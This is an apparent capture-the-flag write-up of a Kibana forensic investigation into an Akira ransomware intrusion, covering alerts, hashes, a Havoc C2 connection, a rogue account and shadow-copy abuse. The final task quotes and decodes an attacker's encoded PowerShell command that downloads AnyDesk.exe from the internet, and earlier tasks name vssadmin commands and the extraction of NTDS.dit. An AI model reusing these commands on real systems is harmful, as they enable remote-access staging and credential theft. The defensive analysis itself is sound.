# DC

## DC01
> In Kibana, under Alerts, we observed multiple alerts from the host adc2ofc. What is the name of the last alert received within the Guardians time window on the adc2ofc?

Looking at the Kibana Security->Alerts dashboard and filter for hostname `adc2ofc`, we see the last alert received:



> Flag: `Multiple Alerts in Different ATT&CK Tactics on a Single Host`

## DC02
> For that alert, if we select Investigate in timeline within the correct time window, multiple alerts appear. What is the name of the last of these alerts?

 When clicking investigate in the timeline, no alerts were shown because timeframe was somehow messed-up... when selecting `Guardians` timeframe, the alerts were shown.

 

> Flag: `Process Execution from an Unusual Directory`

## DC03
> What was the process name detected by this alert?

Visible in previous task.

> Flag: `teafortwo.exe`

## DC04
> What is the full path to the executable file of this process?

By toggling the dialog window with details for the selected document, we can search for `process.command_line` field that will give us answer:



> Flag: `C:\Users\Public\Documents\teafortwo.exe`

## DC05
> What is the MD5 hash of this .exe file?

For this we need to switch to Discover dashbaord and open `winlogbeat-*` Data view and search for `teafortwo.exe` and look at the `file.hash.md5` field:



> Flag: `ae454079c93a7a1ce276756b9d62d196`

## DC06
> By analyzing this file in more detail, we discover it is malware. What type of malware is it?

For this type of information we turn to [VirusTotal](https://www.virustotal.com/) where we can enter the `md5` hash from previous task to search for information on mentioned malware. VirusTotal identified this sample as `ransomware.akira/filecryptor`



> Flag: `ransomware`

## DC07
> Which ransomware family does this sample belong to?

Visible in previous task.

> Flag: `akira`

## DC08
> When was the file first submitted to VirusTotal? Format: `YYYY-MM-DD HH:MM:SS UTC`.

Clicking on the `Detils` tab on VirusTotal page, we see History details:



> Flag: `2025-08-26 09:05:20 UTC`

## DC09
> Ransomware typically creates a ransom note. What is the filename of the ransom note in our case?

Search for `teafortwo.exe` in the `winlogbeat-*` Data view, display the `file.path` field and look at the `File created...` messages:



> Flag: `akira_readme.txt`

## DC10
> Under which user account was the ransomware executed?

Visible in previous task.

> Flag: `administratr`

## DC11
> What was the originating process for the ransomware file creation event?

From the previous search, we look at the oldest event and see that `AnyDesk.exe` created the `teafortwo.exe`:



> Flag: `AnyDesk.exe`

## DC12
> What other file (filename) was created by the same process?

Search for `process.name: "AnyDesk.exe"`, apply filter for `event.action:File created (rule: FileCreate)` and look at the created files:



> Flag: `backupTool.exe`

## DC13
> What is the sha256 hash of that file?

Search for `backupTool.exe` and add the `file.hash.sha256` field to the table view:



> Flag: `c9a38fa7b619a1bc814fcf381a940245dfa8d24ae51e7ec22f9461eae288ede3`

## DC14
> What is the file path where that file was saved?

Visible in previous task.

> Flag: `C:\Users\Public\Downloads\backupTool.exe`

## DC15
> After the file was created, it initiated a network connection. What was the destination IP address and port? (Format: IP:PORT)

Same search as previous, just add `desination.ip` and `destination.port` fields to the table view:


> Flag: `176.9.13.248:443`

## DC16
> An alert was also associated with this file. What is the name of the framework that was used?

In the Kibana Security->Alerts dashboard, we can search for the destination IP `176.9.13.248` and we'll find single alert related to this. Note that searching for alerts on `ADC2ofc` will not help finding the answer as the alert is associated with the perimeter firewall `WGM-SK-FW002`.



> Flag: `havoc`

## DC17
> Havoc is a C2 framework, as shown in the alert. Who is the primary author of this post-exploitation command-and-control framework?

Google `who is author of havoc framework`.

> Flag: `C5pider`

## DC18
> The attacker established persistence using the Havoc framework. However, before the ransomware and persistence activity, we observed the creation of a new user account in the logs. What is the name of the newly created user?

[New user creation event](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4720) in the Windows environment has code `4270`. Searching for `event.code:"4720"` in Kibana and adding field `user.target.name`, we find our answer:



> Flag: `dominik.chrappe`

## DC19
> What password did the attacker set for that user?

For us to know what password was set during user creation, activity must have been performed via command line tools, usually PowerShell or cmd.
We can use `view surrouding documents` feature in Kibana to see events that were recorded around specific event. To do this, we toggle dialog window with details for the event user creation for Dominik, and click `View surrounding documents`:


New window showing surrounding documents will open and automatically show 5 older and 5 newer documents. We also had to add field `process.command_line` in the main Discover view.



NOTE: Surrounding document view will show documents from any source and all filters will be disabled, however you can enable or add filters to narrow down surrounding documents you're interested in.
 
> Flag: `Hlasnoo106`

## DC20
> We then observed that the user was added to a group. What is the group name?

We can use similar approach here, search for windows event id representing adding user to a group: `event.code:"4728"` and adding `user.target.group.name` to table view:


> Flag: `Group Policy Creator Owners`

## DC21
> Which built-in Windows utility is used to manage Volume Shadow Copies (VSS)?

We asked LLM for this and confirmed by searching for `vssadmin.exe` in the logs:



> Flag: `vssadmin.exe`

## DC22
> Review the alerts. Which MITRE ATT&CK technique ID is detected in the alerts related to this tool on adc2ofc?

We switched to Kibana Security->Alerts dashboard and searched for `vssadmin.exe` and reviewed two alerts that were found. Looking at the details of one of `Volume Shadow Copy Deleted or Resized via VssAdmin` alerts, we can see that answer is in the `kibana.alert.rule.threat.technique.id` field:



> Flag: `T1490`

## DC23
> What is the name of this MITRE ATT&CK technique?

Visible in previous task.

> Flag: `Inhibit System Recovery`

## DC24
> Since the shadow copies were deleted, which command did the attacker use to list shadow copies?

We can see `vssadmin` commands executed by the attacker in the screenshot in task [DC21](#dc21).

> Flag: `vssadmin list shadows`

## DC25
> Which drive was targeted when creating the shadow copy?

We can see `vssadmin` commands executed by the attacker in the screenshot in task [DC21](#dc21).

> Flag: `C:`

## DC26
> Question was removed, as attacker's activity related to it was not recorded in the log.


## DC27
> Which two sensitive files were created in the unusual temporary directory? (Format: file1,file2)

For this task, we'll also use technique of searching for windows event associated with file creation. We asked LLM and got answer: `Windows file creation events are primarily tracked using Security Log Event ID 4663 (Object Access) for general auditing and Sysmon Event ID 11 for detailed forensic auditing.`
So we tried searching for `event.code:"11" and "temp" and agent.hostname:"ADC2ofc" `, added field `file.path` to table view and notice two interesting logs:



> Flag: `NTDS.dit,SYSTEM`

## DC28
> Let’s recap: the attacker created a disk snapshot using Volume Shadow Copies, exposed it locally via a filesystem link, and extracted important system files into a temporary folder. Under which user account was this activity performed?

Visible in previous task.

> Flag: `administratr`

## DC29
> Still the same user?! On which host was this user account created?

For this, we search for windows event that represents user creation and add user name to the search: `event.code:"4720" and "administratr"`. We will also add field `user.target.name` to be sure to select the right log:



> Flag: `ADC1ofc`

## DC30
> In the logs, we see the cmd command used to create the user. What is the parent process of that specific cmd.exe instance?

We will look at surrounding documents from log we found in previous task, but before we proceed we need to add fields like `process.command_line`, `process.pid`, `process.parent.pid` and `process.name`. 

While investigating surrounding logs, we noticed that user creation did not originate with `net.exe` command and following the `process.pid`/`process.parent.pid` relations, we stopped at `cmd.exe` process with id `5132` that has much older parent process with id `404` that triggered all this. 



After we searched for `process.pid:"404" and agent.hostname:"ADC1ofc"` we found our answer:



> Flag: `Velociraptor.exe`

## DC31
> Which OutFile value was used in the Invoke-WebRequest command on host adc2ofc, under the parent process Velociraptor.exe ?

For this task, we searched for `agent.hostname:"ADC2ofc"  and  process.parent.name:"Velociraptor.exe"` and investigated series of PowerShell commands with encoded payload:



One of the commands contained payload we were interested in:

```
"process": {
      "args": [
        "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
        "-ExecutionPolicy",
        "Unrestricted",
        "-encodedCommand",
        "WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAG8AdwBuAGwAbwBhAGQALgBhAG4AeQBkAGUAcwBrAC4AYwBvAG0ALwBBAG4AeQBEAGUAcwBrAC4AZQB4AGUAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABBAG4AeQBEAGUAcwBrAC4AZQB4AGUAIgA="
      ],
```
After decoding the `-encodedCommand` part, we got our answer:

```
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12; Invoke-WebRequest "https://download.anydesk.com/AnyDesk.exe" -OutFile "C:\Users\Public\AnyDesk.exe"
```

> Flag: `C:\Users\Public\AnyDesk.exe`
